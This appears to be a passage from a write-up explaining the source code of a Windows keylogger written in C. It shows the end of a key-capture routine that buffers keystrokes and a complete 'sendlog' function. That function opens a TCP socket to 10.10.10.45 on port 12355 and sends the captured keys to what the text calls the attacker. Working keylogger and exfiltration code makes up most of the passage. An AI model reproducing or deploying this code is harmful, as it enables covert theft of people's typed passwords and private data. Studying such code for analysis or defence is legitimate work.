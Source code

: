 ```c
    }

    if (count == 25) {
        buffer[25] = '\0';
        sendlog();
        count = 0;
    }
}
```

Moving on to the logk function. Its main purpose to summarize is listening to any key clicked, converting it to unicode, or its corresponding function key, then adding it to the buffer. Then, when it reaches 25 characters, it adds the null byte '\0' and calls `sendlog()` function. So, the buffer size is 26.

```c
void sendlog() {
    WSADATA wsaData;
    SOCKET sock;
    struct sockaddr_in server;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
        printf("WSAStartup failed: %d\n", WSAGetLastError());
        return;
    }

    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == INVALID_SOCKET) {
        printf("Could not create socket! Error: %d\n", WSAGetLastError());
        WSACleanup();
        return;
    }

    server.sin_addr.s_addr = inet_addr("10.10.10.45");
    server.sin_family = AF_INET;
    server.sin_port = htons(12355);

    if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
        closesocket(sock);
        WSACleanup();
        return;
    }

    send(sock, buffer, strlen(buffer), 0);

    closesocket(sock);
    WSACleanup();
}
```

The sendlog function is mainly for sending the buffer to the server for the attacker to access the key logs. It sets up a windows socket with server IP 10.10.10.45 and port number 12355 then gets the buffer variable and transfers it.
